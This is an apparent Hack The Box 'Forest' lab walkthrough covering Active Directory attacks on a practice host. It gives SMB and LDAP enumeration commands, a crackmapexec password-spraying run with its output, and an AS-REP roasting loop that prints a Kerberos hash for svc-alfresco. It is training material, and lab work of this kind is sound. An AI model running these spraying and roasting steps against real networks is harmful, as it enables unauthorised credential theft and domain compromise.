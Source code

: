 ```
464/tcp open  kpasswd5?    syn-ack
593/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped   syn-ack
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```


* SMB
  * `smbmap -u "" -p "" -P 445 -H 10.10.10.161 && smbmap -u "guest" -p "" -P 445 -H 10.10.10.161`
  * `smbclient -U '%' -L //10.10.10.161 && smbclient -U 'guest%' -L //`
  * enum4linux
    * &#x20;`enum4linux -a 10.10.10.161`
    * `Loot: Username list`
* LDAP
  * `nmap -n -sV --script "ldap* and not brute" -p 389 10.10.10.161`
  * Great information about the domain



### Password Spraying

This attack is loud, slow, and mainly targets password reuse or username = password cases. Due to this it's best saved for lateral movement but worth a shot to attempt if you have a username list.

```
crackmapexec smb 10.10.10.161 -u users-clean.txt -p passwords.txt                                           
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb
.local) (signing:True) (SMBv1:True)                                                                                     
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:DefaultAccount STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:sebastien STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:lucinda STATUS_LOGON_FAILURE 
```

### AS\_REP roasting

```
for user in `cat ~/HTB/forest/users.txt`; do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}; done
...
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:ca051453174ea08075d2ae765b9ca393$36f0929da1381b02546d9848f68d870bf5d77c10b0641fbcec7edab1
baa18b819a6d61ab372db4b5cff49c3819719728c9c3c46d11e763b0b44cf20819e141bbb7eff48cf69cbb7cf3516de0c60c95b978bb78731efda920
838c97defa81c6fd329553fb44620c380ca377e1b89bd799df83d2d94134a2abc0c1c1b970940f26e120799e9c63f1dd3052122d9f56ea79833df520
cc3baadf705c5ac3a3eb970ffab153f882516bdcf5e9db5f2b14d6a05a45f0397c942219f6c3ffa797ca0a8c03bd790a12b6b8c8f9cff9ee9f8c3c8b
3a49a3b482fb529269a384f9a635d105

```
